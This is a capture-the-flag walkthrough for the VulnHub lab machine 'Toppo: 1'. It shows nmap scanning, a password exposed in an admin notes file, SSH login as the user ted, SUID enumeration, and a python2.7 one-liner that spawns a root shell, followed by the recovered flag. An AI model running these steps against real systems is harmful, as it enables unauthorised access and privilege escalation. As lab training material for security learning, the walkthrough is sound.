




# Toppo: 1

- **Machine:** Toppo: 1
- **Download:** https://www.vulnhub.com/entry/toppo-1,245/



---

# Machine Setup

1. Extract the downloaded archive.
2. Create a new virtual machine in VirtualBox.
3. Attach the provided **VMDK** file to the **IDE Controller**.
4. Start the virtual machine.

---

# Network Scanning

## Discover the Target IP

Identify the target machine on the local network.

```bash
nmap -sn 192.168.2.0/24
```


---

## Full Nmap Scan

Perform a complete scan to identify open ports, running services, operating system details, and default NSE script results.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.114
```



---

## Optional Enumeration

Scan all TCP ports.

```bash
nmap -v -p- 192.168.2.114
```

Run a standard service detection scan.

```bash
nmap -sC -sV -A 192.168.2.114
```

---

## HTTP Enumeration

Run the HTTP enumeration NSE script.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.114
```



---

# Web Enumeration

Browse the target website.

```text
http://192.168.2.114
```

---

## Discover the Admin Directory

Visit the exposed admin directory.

```text
http://192.168.2.114/admin/
```


---

## Read the Notes File

Open the notes file.

```text
http://192.168.2.114/admin/notes.txt
```


The file contains the following clue:

```text
Password : 12345ted123
```

The note suggests that the password likely belongs to the user **ted**.

---

# SSH Access

Attempt authentication using the discovered credentials.

```bash
ssh ted@192.168.2.114
```

Password:

```text
12345ted123
```


SSH access is successfully obtained.

---

# Privilege Escalation

## Enumerate SUID Binaries

Search for executables with the SUID permission bit set.

```bash
find / -perm -4000 -type f 2>/dev/null
```



The enumeration reveals that **python2.7** is running with the SUID bit enabled.

---

## Exploit the SUID Python Binary

Use Python to set the effective UID to root and spawn a shell.

```bash
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Verify the current privileges.

```bash
id
```


Root privileges are successfully obtained.

---

## Retrieve the Root Flag

Check the current directory.

```bash
pwd
```

Navigate to the root user's home directory.

```bash
cd /root
```

List the available files.

```bash
ls
```

Read the flag.

```bash
cat flag.txt
```

Recovered root flag:

```text
0wnedlab{p4ssi0n_c0me_with_pract1ce}
```


---

# Vulnerability Summary

| No. | Vulnerability | Impact |
|-----|---------------|--------|
| 1 | Sensitive information disclosure (`notes.txt`) | Credential exposure |
| 2 | Weak SSH credentials | Unauthorized user access |
| 3 | Misconfigured SUID Python binary | Local privilege escalation to root |

---

# Key Learning

- Always inspect exposed administrative directories for configuration files, notes, and backups.
- Small information leaks often lead directly to valid credentials.
- Enumerating SUID binaries should be a standard post-exploitation step.
- Misconfigured SUID interpreters such as Python can provide immediate root access.
- GTFOBins is an excellent reference for exploiting privileged binaries safely during security assessments.

---

# Summary

The assessment began with network reconnaissance, which identified an HTTP service exposing an administrative directory. Inspection of `notes.txt` revealed a password hint that was successfully used to authenticate as the **ted** user over SSH. After gaining user access, local enumeration identified a **SUID-enabled Python 2.7** binary. Exploiting this misconfiguration allowed the process to elevate its privileges and spawn a root shell. With full administrative access, the root directory was accessed and the final flag was successfully retrieved.